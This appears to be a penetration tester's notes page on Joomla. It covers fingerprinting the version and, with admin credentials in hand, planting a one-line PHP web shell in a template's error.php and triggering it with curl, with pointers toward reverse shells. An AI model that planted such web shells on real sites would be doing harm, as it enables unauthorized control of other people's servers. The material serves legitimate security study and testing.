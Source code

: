 ```yaml
---
title: Joomla 🦁
---
```

## Check Version

- In **/administrator/manifests/files/joomla.xml** you can see the version.
- In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
- In **plugins/system/cache/cache.xml** you can see an approximate version.

- Yo can also do it automatically using [droopscan](https://github.com/SamJoan/droopescan):

```shell
droopescan scan joomla --url http://joomla-site.local/
```

## Joomla database

- Check the [Official documentation](https://docs.joomla.org/Tables)

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on `Templates` on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

![](Pasted%20image%2020240530180012.png)

3. Finally, you can click on a page to pull up the **page source**. Let's choose the `error.php` page. We'll add a **PHP one-liner to gain code execution** as follows:

 ```php
 <?php system($_GET['cmd']); ?>
 ```

4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`


>[!Note]
>You can also add in that code a reverse shell like Pentest Monkey one
>Make sure to check [Reverse shells 👾](reverse_shells.md)

### Another way

- Modify the `index.php` adding there your reverse shell


